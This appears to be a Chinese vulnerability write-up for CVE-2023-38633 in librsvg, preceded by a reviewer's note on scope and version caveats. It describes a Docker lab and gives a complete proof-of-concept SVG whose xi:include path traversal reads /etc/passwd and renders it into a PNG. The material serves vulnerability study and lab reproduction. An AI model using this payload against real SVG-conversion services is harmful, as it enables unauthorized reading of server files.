



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;2.56.3、实验2.50.7，应用将不可信SVG交librsvg渲染并返回结果

代码与实验材料：完整xi:include文件读取及fallback，读出的内容渲染到PNG，截图未视检

来源证据范围：Canva原研究及GNOME issue996

- **适用与权限边界（1）**：“任意文件”需权限与可渲染限制；依据：以UTF8文本显示，二进制/不可读/图片裁剪不能等同完整任意字节外泄。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：环境和SVG合法性需核对；依据：SVG未声明默认SVG命名空间及画布尺寸，是否被该版本接受依实际解析；未附服务器转换代码。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：缺分支修复矩阵；依据：只总上限，需核对维护分支backport，不应建议所有发行版仅看上游号。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# librsvg XInclude 文件包含漏洞 CVE-2023-38633

## 漏洞描述

librsvg是一个用于处理SVG图片的开源依赖库。

librsvg支持XML中的XInclude规范，可以用于加载外部内容。在librsvg 2.56.3版本以前，由于处理路径存在逻辑错误，导致攻击者可以传入一个恶意构造的SVG图片，进而读取到任意文件。

参考链接：

- https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/
- https://gitlab.gnome.org/GNOME/librsvg/-/issues/996

## 环境搭建

Vulhub执行如下命令启动一个PHP服务器，其中使用librsvg 2.50.7将用户上传的SVG图片转换成PNG图片并返回：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到上传页面。




## 漏洞复现

将路径嵌入到`<xi:include>`标签中，如下POC：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

上传这个SVG图片：




访问返回的图片名`6522569dc29e3.png`，可查看到`/etc/passwd`已被成功读取并渲染进PNG图片：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
